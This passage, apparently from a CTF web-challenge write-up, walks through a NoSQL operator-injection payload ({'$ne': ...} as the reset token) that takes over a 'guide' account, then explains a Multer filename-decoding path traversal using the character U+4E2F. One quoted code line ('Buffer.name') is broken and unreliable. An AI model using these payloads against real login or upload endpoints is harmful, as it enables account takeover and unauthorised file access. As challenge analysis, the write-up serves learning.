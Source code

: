 ```python
POST /api/auth/reset HTTP/1.1
Host: 0.0.0.0:3000
Content-Length: 96
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://0.0.0.0:3000
Referer: http://0.0.0.0:3000/reset
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,zh;q=0.5
Connection: keep-alive

{
		"email":"guide_abcd1234efg@admin.com",
		"change":true,
		"token":{"$ne":"asdf"},
		"password":"hihi"
}
```

Afterwards, you can log in to your guide account using your guide email and changed password.

### Multer Module LFI

If you successfully log in with the 'guide' account, you can create and edit answers.
The sections related to answers can be found in `answerRoutes.js` and `answerController.js`.

![answerRoutes.js](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2031.png)

answerRoutes.js

You can create an answer with a **`POST /`** request, and upload an image with a **`PUT /:uuid`** request.

The part we need to focus on is the PUT request. It directly receives an image file using **`upload.single`**, and the upload itself is handled by the **Multer** module.

![multer upload in answerRoutes.js](/[KR]%202025%20CODEGATE%20CTF%20Web%20Challenges%20Writeup%2025595ea211f580cca84cefe7f436db5f/image%2032.png)

multer upload in answerRoutes.js

Here, the code assumes the incoming filename is `latin1` encoded and reinterprets it as a `utf-8` string using the following logic:

```jsx
file.originalname = Buffer.name(file.originalname, "latin1").toString("utf-8");
```

ormally, a path traversal sequence like `../` would be sanitized. However, this code allows for a bypass using special characters.

Due to this flawed logic, the character **`丯` (U+4E2F)** is incorrectly reinterpreted as the **`/` (U+002F)** character.

